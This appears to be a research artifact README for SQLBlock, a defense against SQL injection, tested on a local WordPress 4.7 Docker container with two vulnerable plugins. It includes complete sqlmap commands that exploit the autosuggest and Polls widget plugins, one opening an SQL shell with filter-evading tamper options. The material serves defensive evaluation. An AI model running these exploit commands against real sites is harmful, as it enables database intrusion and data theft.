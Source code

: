 # SQLBlock defense deployed on WordPress's plugins

You can download an already setup docker container from the below link
[wordpress.tar](https://drive.google.com/drive/folders/1sJslTelkODYPgtIoTWXD_lI-ws3kjLom)

## Running the docker
To run the docker, you should first load the tarball file using the following command.
```bash
docker load -i sqlblock_wordpress.tar
```

You can use the following command to run the docker container.
```bash
docker run --name sqlblock-container -d --rm -p 9000:80 -it sqlblock_wordpress
```

This docker container includes WordPress 4.7 and two plugins which has SQLi vulnerabilities. The docker container is already loaded with the profile of benign browsing in WordPress which includes only simple actions.


## Exploit the vulnerabilities

In the prepared docker container, SQLBlock is defending against the SQli requests. You can turn off SQLBlock using the following command.
```bash
mysql -u root -e "UNINSTALL PLUGIN sqlblock"
```

You can turn SQLBlcok back on, either using the script called `enforce_profile` or you can run the following command.
```bash
mysql -u root -e "INSTALL PLUGIN sqlblock SONAME 'sqlblock.so'"
```

You can exploit the vulnerabilities in Poll widget and autosuggest plugin using sqlmap tool. You can download sqlmap from this [link](https://drive.google.com/drive/folders/1sJslTelkODYPgtIoTWXD_lI-ws3kjLom).

# Auto-suggest vulnerability
You can run the following command to perform the SQLi exploit on auto-suggest plugin in WordPress.
```bash
./sqlmap-dev/sqlmap.py --flush-session -u "http://localhost:9000/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1" --technique BT --dbms MYSQL --risk 3 --level 5 -p wpas_keys --tamper space2comment --sql-shell
```

# Polls widget vulnerability

First, you need to record a benign request while you participate in poll. You can record the request using Burp suite tool downloaded from this [link](https://portswigger.net/burp/communitydownload).

- After running Burp suite, go to proxy tab and turn on intercepting mode. In the option tab you see the IP and port for the interception. You should modify your browser's proxy setting according to the information in the proxy tab of Burp suite.
- Web browsers by default do not intercept the local requests. To change that you should follow the instruction for intercepting Localhost traffic. You can follow the instruction for Firefox [here](https://security.stackexchange.com/questions/142552/how-to-configure-burp-suite-for-localhost-application).
- Visit the URL <http://localhost:9000/?p=4>. There is poll in this blog post, which you can submit your answer and record the request sent to the server using Burp suite
- After observing the request in Burp suite, you can right-click and use the "save item" option to save the request for submitting an answer to the poll to a file.
![Save request to a file](./screenshot.png)


To exploit the vulnerability in Polls widget you can use the following command. Note that you should replace the `path_to_saved_requset`.

```bash
./sqlmap-dev/sqlmap.py --flush-session -r %path_to_saved_request% -p question_id --tamper space2comment
```

